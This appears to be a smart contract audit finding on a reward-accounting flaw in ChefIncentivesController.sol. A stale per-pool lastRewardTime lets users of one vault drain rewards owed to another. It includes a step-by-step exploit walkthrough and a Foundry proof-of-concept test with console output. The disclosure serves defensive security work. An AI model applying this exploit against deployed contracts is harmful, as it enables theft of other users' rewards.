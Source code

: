 ## [M] Users of a vault can steal other user's rewards when one vault's `lastRewardTime` differs from another vault's `lastRewardTime`

In `ChefIncentivesController.sol`, the `_newRewards` function calculates the new rewards accumulated since the last update of that specific pool [Line 988-994](relative_path_091409:src/reward/ChefIncentivesController.sol#L988-L994):

```solidity
function _newRewards(
    VaultInfo memory pool,
    uint256 _totalAllocPoint
) internal view returns (uint256 newReward, uint256 newAccRewardPerShare) {
    .....
    if (lpSupply > 0) {
->      uint256 duration = block.timestamp - pool.lastRewardTime;
->      uint256 rawReward = duration * rewardsPerSecond;

->      uint256 rewards = availableRewards();
->      if (rewards < rawReward) {
->          rawReward = rewards;
->      }
        .....
    }
}
```

For example, when a user changes his debt in CDPVault, `handleActionAfter` is called by the vault, which only changes the `pool.lastRewardTime` of that individual pool representing that vault through `_updatePool`.

This is problematic as it means different pools can have different `pool.lastRewardTime`, which means the way that rewards are calculated in `_newRewards` will cause one pool to receive more rewards than it is supposed to, at the loss of another pool.

A summary would be that `availableRewards()` returns `depositedRewards - accountedRewards;` and `pool.lastRewardTime` being different means that one pool has been adding to `accountedRewards` and its struct variables ahead of another pool. That one pool should then have a "lesser" share in the value returned by `availableRewards()`; however, the current code does not take that into account, allowing that pool to dig into rewards meant for other pools who has a more outdated `pool.lastRewardTime`.

Consider this symbol diagram example:

```
          [-----A-----|-----B-----]            (pool 1)
          [-----------C-----------]            (pool 2)
    Day:  0           x           y       z
```

Suppose there are 2 pools (represented by the first and second `[]` block respectively) that are eligible for rewards. And `day y` is the value `endRewardTime()` returns. And `day z` is a value larger than `day y`. Part `A` represents the rewards that are to be claimed by pool 1 during the time period `[0,x)`, Part `B` represents `[x,y)` for pool 1 as well, while Part `C` represents the full rewards that are to be claimed by pool 2 during `[0,y)`. Below I will explain the sequence which allows pool 1 to steal `1/4` of part `C` from pool 2.

1. Both pools start accumulating rewards from `day 0`.
2. At `day x`, user in **pool 1** changes his debt (by any amount). This will trigger `_modifyPosition` (in CDPVault.sol) which will call `handleActionAfter` (in ChefIncentiveController.sol).
3. `handleActionAfter` in ChefIncentiveController.sol will call `_updatePool` for pool 1 **only**, adding part A (refer to symbol diagram) into `accountedRewards`. (Through this line `accountedRewards = accountedRewards + reward;` inside `_updatePool`).
4. Now suppose on `day z` (which is **greater** than `day y`), the user in pool 1 tries to `claim`, `claim` will then call `_updatePool` which will then call `_newRewards`.
5. Now lets go through what happens inside [`_newRewards`](relative_path_091409:src/reward/ChefIncentivesController.sol#L988-L994):
    1. `duration` gets set to `z - pool.lastRewardTime` = `z - x`.
    2. `rawReward` gets set to `duration * rewardsPerSecond`.
    3. `availableRewards()` returns `depositedRewards - accountedRewards`; hence, `availableRewards()` = **part `B+C`** (since `A` is already in `accountedRewards`).
    4. Since `z > y`, `availableRewards()` will be `<` `rawReward` for some values of `z`, this results in the function setting `rawReward = availableRewards();` inside the if statement.
    5. So now, `rawReward` = `availableRewards()` = **part `B+C`**.
    6. Hence, the value returned by `_newRewards` for pool 1 will include **part `C`** which is supposed to be pool 2's rewards; effectively allowing user from pool 1 to **steal a fraction** of another user's rewards from pool 2. (In this scenario, pool 1 can steal `1/4` of part `C`).

### Proof of Code

The below code is the coded version of the explanation above:

```solidity
function test_durationHack() public {
    rewardsPerSecond = 1 ether;     //changed to make console output more understandable
    endingTimeCadence = 30 seconds;
    incentivesController.setRewardsPerSecond(rewardsPerSecond, true);
    incentivesController.setEndingTimeUpdateCadence(endingTimeCadence);

    address Alice = address(0x123);
    address Bob = address(0x567);

    address vault1 = address(0x1);
    uint256 totalAllocPoint = 1000;
    incentivesController.addPool(vault1, totalAllocPoint / 2); //give both pools equal allocation for convenience

    address vault2 = address(0x2);
    incentivesController.addPool(vault2, totalAllocPoint / 2); //give both pools equal allocation for convenience

    loopToken.mint(address(incentivesController), 120 ether);
    incentivesController.registerRewardDeposit(120 ether);    //give out 120 ether as incentive

    vm.mockCall(
        mockEligibilityDataProvider,
        abi.encodeWithSelector(IEligibilityDataProvider.lastEligibleStatus.selector, Alice),
        abi.encode(true)
    );
    vm.mockCall(
        mockEligibilityDataProvider,
        abi.encodeWithSelector(EligibilityDataProvider.refresh.selector, Alice),
        abi.encode(true)
    );
    vm.prank(vault1);                                                //set msg.sender to vault1
    incentivesController.handleActionAfter(Alice, 1 ether, 1 ether); //simulates Alice taking on a debt of 1 ether at vault1

    vm.mockCall(
        mockEligibilityDataProvider,
        abi.encodeWithSelector(IEligibilityDataProvider.lastEligibleStatus.selector, Bob),
        abi.encode(true)
    );
    vm.mockCall(
        mockEligibilityDataProvider,
        abi.encodeWithSelector(EligibilityDataProvider.refresh.selector, Bob),
        abi.encode(true)
    );
    vm.prank(vault2);                                              //set msg.sender to vault2
    incentivesController.handleActionAfter(Bob, 1 ether, 1 ether); //simulates Bob taking on a debt of 1 ether at vault2

    // based on the above scenario, each Alice and Bob are supposed to get 60 ether each at the end.

    skip(1 minutes); // go to the 1 minute mark (day x in the symbol diagram)
    vm.mockCall(
        mockEligibilityDataProvider,
        abi.encodeWithSelector(IEligibilityDataProvider.lastEligibleStatus.selector, Alice),
        abi.encode(true)
    );
    vm.mockCall(
        mockEligibilityDataProvider,
        abi.encodeWithSelector(EligibilityDataProvider.refresh.selector, Alice),
        abi.encode(true)
    );
    vm.prank(vault1);                                                                //set msg.sender to vault1
    incentivesController.handleActionAfter(Alice, 1 ether - 1 wei, 1 ether - 1 wei); //simulates Alice changing debt by any insignificant amount in vault1, resulting in _updatePool being called for vault1

    skip(1 minutes); //further skip 1 minute, reaching the **2 minute mark** (day y in the symbol diagram)
    console.log("Alice rewards at 2 minutes:", incentivesController.allPendingRewards(Alice)); // 2 minutes is the time at which 60 ether should be given to each of Alice and Bob, and no one is supposed to get more afterwards if not for the bug
    skip(1 minutes); // (day z in the symbol diagram)
    console.log("Alice rewards at 3 minutes:", incentivesController.allPendingRewards(Alice)); // as you can see Alice continues to receive rewards even after she isnt supposed to, exploiting the difference in pool.lastRewardTime to do so

    console.log("Bob's reward at the end:   ", incentivesController.allPendingRewards(Bob));
}
```



**Console Output:**

```
Ran 1 test for src/test/unit/ChefIncentivesController.t.sol:ChefIncentivesControllerTest
[PASS] test_durationHack() (gas: 688851)
Logs:
  Alice rewards at 2 minutes: 59999999999999999970
  Alice rewards at 3 minutes: 74999999999999999955
  Bob's reward at the end:    45000000000000000000

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 5.68ms (1.13ms CPU time)

Ran 1 test suite in 301.12ms (5.68ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

**Notable comments:**

- The first `handleActionAfter` is where we simulate Alice taking on 1 ether debt inside vault1.
- The second `handleActionAfter` is where we simulate Bob taking on 1 ether debt inside vault2.
- The last `handleActionAfter` is where we simulate Alice changing her debt by an insignificant amount in vault1, resulting in `_updatePool` being called for **only** vault1.
- Since we mint `120 ether` as rewards and we set `rewardsPerSecond = 1 ether`, and both Alice and Bob start staking the **same amounts** at the **same time** in different pools of **equal** point allocation weightage, at the end of `2 minutes`, both Alice and Bob should have received **equal** amounts of reward (`60 ether` **each**).
- However, we can see in the console output that Alice continues to gain tokens past `2 minutes` and at the end has `74999999999999999955 tokens` \~= `75 ether`, while Bob only has `45 ether`.
- Alice has successfully taken advantage of the difference in pool's `lastRewardTime` bug, to steal `15 ether` of rewards from Bob, resulting in a **permanent** loss of rewards for Bob. (the `15 ether` here is basically the `1/4` of part `C` in the symbol diagram explanation).



